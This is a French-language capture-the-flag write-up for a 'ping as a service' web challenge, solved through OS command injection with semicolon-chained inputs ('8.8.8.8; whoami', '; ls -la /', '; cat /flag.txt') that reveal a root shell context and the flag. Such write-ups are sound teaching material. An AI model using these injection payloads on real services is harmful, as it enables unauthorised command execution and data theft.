



## 📝 Description du Challenge

> **Description :** Are you too lazy to ping websites? Then just use this convenient cloud service to ping sites for you!
> 
> **URL du challenge :** `http://forever.isss.io:4223`
> 
> **Auteur :** mattyp

Le challenge propose un service cloud permettant d'exécuter la commande `ping` vers une adresse IP ou un nom de domaine fourni par l'utilisateur.

## 1. Reconnaissance et Hypothèse de Fonctionnement

En accédant à l'interface web, nous testons d'abord le comportement normal de l'application en soumettant l'adresse IP DNS de Google : `8.8.8.8`.

**Flux de sortie renvoyé :**

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
64 bytes from 8.8.8.8: seq=0 ttl=116 time=1.213 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 1 packets received, 0% packet loss
round-trip min/avg/max = 1.213/1.213/1.213 ms
```



### Analyse de l'implémentation backend :

L'affichage brut des statistiques indique que le serveur web exécute directement une commande système sous-jacente (probablement via une fonction du type `system()`, `exec()`, ou `popen()` en PHP/Python/NodeJS).

L'absence apparente de filtrage laisse supposer que l'entrée utilisateur est directement concaténée dans la chaîne de commande système :

```
ping -c 1 [USER_INPUT]
```

## 2. Vérification de la Vulnérabilité (POC)

Sous Linux, le caractère point-virgule (`;`) agit comme un séparateur d'instructions, permettant d'exécuter plusieurs commandes l'une après l'autre sur une seule ligne.

Nous tentons d'injecter une commande bénigne d'énumération (`whoami`) en soumettant le payload suivant :

```text
8.8.8.8; whoami
```

**Résultat de l'exécution :**

```
PING 8.8.8.8 (8.8.8.8): 56 data bytes
...
round-trip min/avg/max = 1.290/1.290/1.290 ms
root
```



**Constat critique :** La commande `whoami` a été exécutée avec succès juste après le ping, renvoyant l'identité de l'utilisateur système actuel : **`root`**. L'application souffre d'une faille d'injection de commandes système totale.

## 3. Cartographie et Exploitation

Maintenant que l'exécution de code à distance (RCE) est confirmée, nous listons le contenu du répertoire racine `/` du serveur pour localiser le flag.

### Payload de cartographie :

```
; ls -la /
```


La sortie du terminal révèle la présence d'un fichier hautement suspect nommé `/flag.txt`.

## 🏁 4. Capture du Flag

Il ne reste plus qu'à lire le contenu du fichier cible en exploitant à nouveau l'enchaînement de commandes système.

### Payload final :

```
; cat /flag.txt
```

**Sortie de l'application :**

```
utflag{c0mmand_1nj3ct3d!}
```

**Flag récupéré :**

```
utflag{c0mmand_1nj3ct3d!}
```

**_3ch0 training_**
